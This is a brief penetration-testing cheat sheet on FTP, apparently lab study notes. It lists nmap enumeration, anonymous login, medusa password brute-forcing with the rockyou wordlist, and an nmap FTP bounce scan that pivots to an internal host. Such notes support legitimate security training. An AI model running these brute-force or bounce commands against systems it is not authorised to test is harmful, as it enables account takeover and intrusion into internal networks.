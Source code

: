
## Enumeration

```
sudo nmap -sC -sV -p 21 192.168.2.142 
```

### Anonymous Auth

```
ftp 192.168.2.142
```

# Brute Forcing

```
medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp
```

With user list
```
medusa -U /usr/share/wordlists/users.txt -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp
```

# FTP Bounce Attack

An FTP bounce attack is a network attack that uses FTP servers to deliver outbound traffic to another device on the network. The attacker uses a PORT command to trick the FTP connection into running commands and getting information from a device other than the intended server.

Consider we are targetting an FTP Server FTP_DMZ exposed to the internet. Another device within the same network, Internal_DMZ, is not exposed to the internet. We can use the connection to the FTP_DMZ server to scan Internal_DMZ using the FTP Bounce attack and obtain information about the server's open ports. Then, we can use that information as part of our attack against the infrastructure.

```
nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2
```

